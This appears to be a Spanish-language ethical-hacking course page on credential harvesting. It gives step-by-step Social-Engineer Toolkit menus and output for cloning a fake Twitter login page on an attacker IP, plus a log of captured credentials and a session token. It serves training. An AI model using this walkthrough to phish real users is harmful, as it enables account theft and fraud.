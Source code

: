 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Credential Harvesting

_**La recolección de credenciales**_ no es un tipo de ataque nuevo, pero las metodologías utilizadas por los atacantes han evolucionado a lo largo de los años. La recolección de credenciales (o recolección de contraseñas) es el acto de recopilar y robar nombres de usuario, contraseñas, tokens, PIN y cualquier otro tipo de credenciales válidos a través de violaciones de infraestructura. En el Módulo 4, “Ataques de ingeniería social”, aprendió todo sobre el phishing y los ataques de phishing. Una de las formas más comunes en que los atacantes realizan la recolección de credenciales es mediante el uso de correos electrónicos de phishing y de phishing con enlaces que podrían redirigir a un usuario a un sitio falso. Este "sitio falso" podría simular un servicio en la nube legítimo, como Gmail, Office 365 o incluso un sitio de redes sociales como Twitter, LinkedIn, Instagram o Facebook. Por eso es tan importante utilizar la autenticación multifactor. Sin embargo, en algunos casos, los atacantes podrían eludir la autenticación multifactor redirigiendo al usuario a un sitio malicioso y robando una cookie de sesión del navegador del usuario.

Muchos servicios y aplicaciones alojadas en la nube utilizan el inicio de sesión único (SSO) y otros utilizan autenticación federada. A veces, las aplicaciones basadas en la nube le permiten iniciar sesión con sus credenciales de Google, Apple o Facebook. Los atacantes podrían redirigir a los usuarios a sitios web suplantados que pueden parecer páginas de inicio de sesión legítimas de Google, Apple, Facebook o Twitter. Desde allí, el atacante podría robar el nombre de usuario y la contraseña de la víctima. La Figura 7-1 muestra un ejemplo de un ataque común de recolección de credenciales en el que el atacante envía a la víctima un correo electrónico de phishing que incluye un enlace a un sitio falso (en este ejemplo, un inicio de sesión de Twitter).

_**Figura 7-1**_ _: Ataque de recolección de credenciales mediante correos electrónicos de ingeniería social y phishing_

Agresor1. Correo electrónico con enlace a inicio de sesión falso en TwitterVíctima3. El atacante roba credencialesSitio falso de inicio de sesión en Twitter2. El usuario ingresa las credenciales

En el Módulo 4, aprendió sobre el Conjunto de herramientas de ingeniería social (SET). En los siguientes ejemplos, verá lo fácil que es realizar un ataque de ingeniería social y crear una instancia de un sitio web falso (en este caso, un sitio de inicio de sesión de Twitter falso) para realizar un ataque de recolección de credenciales.

**Paso 1** . Inicie SET ingresando el comando **setoolkit** .

**Paso 2** . Seleccione **1) Ataques de ingeniería social** en el menú principal, como se muestra en el Ejemplo 7-1.

_**Ejemplo 7-1**_  : Inicio del ataque de ingeniería social

<pre><code><strong>                Select from the menu:   1) Social-Engineering Attacks   2) Penetration Testing (Fast-Track)   3) Third Party Modules   4) Update the Social-Engineer Toolkit   5) Update SET configuration   6) Help, Credits, and About  99) Exit the Social-Engineer Toolkitset> 1
</strong></code></pre>

**Paso 3** . En el menú que aparece (ver Ejemplo 7-2), seleccione **2) Vectores de ataque a sitios web** .

_**Ejemplo 7-2**_  : Selección de vectores de ataque a sitios web

<pre><code><strong>                Select from the menu:    1) Spear-Phishing Attack Vectors    2) Website Attack Vectors    3) Infectious Media Generator    4) Create a Payload and Listener    5) Mass Mailer Attack    6) Arduino-Based Attack Vector    7) Wireless Access Point Attack Vector    8) QRCode Generator Attack Vector    9) Powershell Attack Vectors   10) Third Party Modules   99) Return back to the main menu.set>2 
</strong></code></pre>

<pre><code><strong>                The Web Attack module is a unique way of utilizing multiple web-basedattacks in order to compromise the intended victim.The Java Applet Attack method will spoof a Java Certificate anddeliver a metasploit based payload. Uses a customized java appletcreated by Thomas Werth to deliver the payload.The Metasploit Browser Exploit method will utilize select Metasploitbrowser exploits through an iframe and deliver a Metasploit payload.The Credential Harvester method will utilize web cloning of awebsite that has a username and password field and harvest allthe information posted to the website.The TabNabbing method will wait for a user to move to a differenttab, then refresh the page to something different.The Web-Jacking Attack method was introduced by white_sheep, emgent.This method utilizes iframe replacements to make the highlighted URLlink to appear legitimate however when clicked a window pops up thenis replaced with the malicious link. You can edit the link replacementsettings in the set_config if it's too slow/fast.The Multi-Attack method will add a combination of attacks throughthe web attack menu. For example, you can utilize the Java Applet,Metasploit Browser, Credential Harvester/Tabnabbing all at once to seewhich is successful.The HTA Attack method will allow you to clone a site and performpowershell injection through HTA files which can be used forWindows-based powershell exploitation through the browser.   1) Java Applet Attack Method   2) Metasploit Browser Exploit Method   3) Credential Harvester Attack Method   4) Tabnabbing Attack Method   5) Web Jacking Attack Method   6) Multi-Attack Web Method   7) HTA Attack Method  99) Return to Main Menuset:webattack>3
</strong></code></pre>

_**Ejemplo 7-3**_  : Selección del método de ataque de recolección de credenciales

**Etapa 4** . En el menú y la explicación que aparecen a continuación (consulte el Ejemplo 7-3), seleccione **3) Método de ataque de recolección de credenciales** .

<pre><code><strong>                The first method will allow SET to import a list of pre-defined webapplications that it can utilize within the attack.The second method will completely clone a website of your choosingand allow you to utilize the attack vectors within the completelysame web application you were attempting to clone.The third method allows you to import your own website, note that youshould only have an index.html when using the import websitefunctionality.   1) Web Templates   2) Site Cloner   3) Custom Import  99) Return to Webattack Menuset:webattack>1
</strong></code></pre>

_**Ejemplo 7-4**_  : Selección de una plantilla web predefinida

**Paso 5** . En el menú que aparece a continuación (ver Ejemplo 7-4), seleccione **1) Plantillas web** para utilizar una plantilla web predefinida (Twitter). Como puede ver, también tiene opciones para clonar un sitio web existente o importar un sitio web personalizado. En este ejemplo, utiliza una plantilla web predefinida.

\


**Paso 6** . En el menú que se muestra en el Ejemplo 7-5, ingrese la dirección IP del host que le gustaría usar para recopilar las credenciales del usuario (en este caso, **192.168.88.225** ). En este ejemplo, SET ha reconocido la dirección IP del sistema atacante. Si esto le ocurre a usted, puede simplemente presionar **Enter** para seleccionar la dirección IP del sistema atacante.

_**Ejemplo 7-5**_  : Ingreso de la dirección IP del recolector de credenciales

<pre><code><strong>                [-] Credential harvester will allow you to utilize the clonecapabilities within SET[-] to harvest credentials or parameters from a website as well asplace them into a report------------------------------------------------------------------------- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS *IMPORTANT * --The way that this works is by cloning a site and looking for formfields to rewrite. If the POST fields are not usual methods forposting forms this could fail. If it does, you can always save theHTML, rewrite the forms to be standard forms and use the "IMPORT"feature. Additionally, really important:If you are using an EXTERNAL IP ADDRESS, you need to place theEXTERNAL IP address below, not your NAT address. Additionally, ifyou don't know basic networking concepts, and you have a privateIP address, you will need to do port forwarding to your NAT IPaddress from your external IP address. A browser doesn't know howto communicate with a private IP address, so if you don't specifyan external IP address if you are using this from an externalperspective, it will not work. This isn't a SET issue this is hownetworking works.set:webattack> IP address for the POST back in Harvester/Tabnabbing[192.168.88.225]:
</strong></code></pre>

**Paso 7** . Seleccione **3. Twitter** , como se muestra en el ejemplo 7-6.

_**Ejemplo 7-6**_  : Selección de la plantilla para Twitter

<pre><code><strong>                --------------------------------------------------------                 **** Important Information ****For templates, when a POST is initiated to harvestcredentials, you will need a site for it to redirect.You can configure this option under:      /etc/setoolkit/set.configEdit this file, and change HARVESTER_REDIRECT andHARVESTER_URL to the sites you want to redirect toafter it is posted. If you do not set these, thenit will not redirect properly. This only goes fortemplates.--------------------------------------------------------  1. Java Required  2. Google  3. Twitterset:webattack> Select a template:3[*] Cloning the website: http://www.twitter.com[*] This could take a little bit...The best way to use this attack is if username and password formfields are available. Regardless, this captures all POSTs on awebsite.[*] The Social-Engineer Toolkit Credential Harvester Attack[*] Credential Harvester is running on port 80[*] Information will be displayed to you as it arrives below:
</strong>
              
</code></pre>

Luego, puede redirigir a los usuarios a este sitio falso de Twitter enviando un correo electrónico de phishing o aprovechando vulnerabilidades web como secuencias de comandos entre sitios (XSS) y falsificación de solicitudes entre sitios (CSRF). La Figura 7-2 muestra la página de inicio de sesión falsa de Twitter, donde el usuario ingresa sus credenciales.

_**Figura 7-2**_ _- Página de inicio de sesión falsa_

![](https://skillsforall.com/content/eh/1.0/m7/course/en-US/assets/edb61cd6bd789cdc4476775889252c5ef8780d77.png)

El ejemplo 7-7 muestra cómo el sistema atacante recopila las credenciales del usuario. El nombre de usuario ingresado es _santosomar_ y la contraseña es _superbadpassword_ . También puede ver el token de sesión.

_**Ejemplo 7-7**_ _: Recopilación de credenciales de usuario_

```
192.168.78.238 - - [28/Jun/2021 23:07:41] "GET / HTTP/1.1" 200 -[*] WE GOT A HIT! Printing the output:POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=santosomarPOSSIBLE PASSWORD FIELD FOUND: session[password]=superbadpasswordPARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52PARAM: scribe_log=POSSIBLE USERNAME FIELD FOUND: redirect_after_login=PARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.192.168.78.238 - - [28/Jun/2021 23:08:27] "POST /sessions HTTP/1.1"302 - 
```

Se sabe que los atacantes recopilan las credenciales de los proveedores de servicios en la nube una vez que ingresan a los sistemas de sus víctimas. Diferentes actores de amenazas han ampliado sus capacidades de recolección de credenciales para apuntar a múltiples servicios en la nube y fuera de la nube en las redes y sistemas internos de las víctimas después de la explotación de otras vulnerabilidades.
